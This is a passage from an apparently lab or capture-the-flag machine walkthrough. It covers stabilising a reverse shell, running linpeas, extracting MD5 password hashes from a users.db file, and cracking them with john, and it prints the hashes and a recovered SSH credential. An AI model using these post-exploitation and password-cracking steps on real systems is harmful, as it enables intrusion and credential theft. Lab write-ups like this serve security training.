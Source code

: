 ![](cybersecurity/images/Pasted%2520image%252020250627154904.png)

We need to click on `View Predictions` and set up our listener before we do it, then, we will receive our shell:

![](cybersecurity/images/Pasted%2520image%252020250628144655.png)
There we go, let's begin privilege escalation.


# PRIVILEGE ESCALATION
---


First of all, let's stabilize our shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250628145158.png)

We can use linpeas to check any PE path we may have:

![](cybersecurity/images/Pasted%2520image%252020250628145911.png)

We can see a `users.db` file inside of here, if we check it on `sqlitebrowser`, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250628145943.png)

We got some users with hashes, let's get them and attempt to crack them:

```
c99175974b6e192936d97224638a34f8
0f3d8c76530022670f1c6029eed09ccb
b606c5f5136170f15444251656538b36
bc25b1f80f544c0ab451c02a3dca9fc6
bf041041e57f1aff3be7ea1abd6129d0
```

We can crack them with `john` or `crackstation`:

```
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
mattp005numbertwo (?)
marwinnarak043414036 (?)
```

The hashes found credentials for `gael` and `royer`, only `gaek` works on ssh:

```
gael:mattp005numbertwo
```
